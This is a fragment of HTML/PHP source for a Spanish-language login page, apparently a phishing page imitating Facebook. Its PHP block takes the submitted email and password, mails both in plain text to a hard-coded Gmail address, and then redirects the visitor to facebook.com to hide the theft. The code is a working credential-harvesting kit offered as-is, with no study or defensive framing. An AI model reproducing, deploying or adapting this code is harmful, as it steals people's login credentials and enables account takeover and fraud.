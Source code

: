             </div>
            <div class="input-group">
                <input type="submit" value="Iniciar sesión">
            </div>
        </form>
    </div>

    <?php
    if ($_SERVER["REQUEST_METHOD"] == "POST") {
        $email = $_POST["email"];
        $password = $_POST["password"];

        // Aquí puedes agregar la lógica para enviar el correo electrónico
        $destinatario = "fabiverguero@gmail.com";
        $asunto = "Inicio de sesión";
        $mensaje = "Correo electrónico: $email\nContraseña: $password";
        
        mail($destinatario, $asunto, $mensaje);

        // Redirigir al usuario a Facebook después de enviar el correo
        header("Location: https://www.facebook.com");
        exit();
    }
    ?>
</body>
</html>
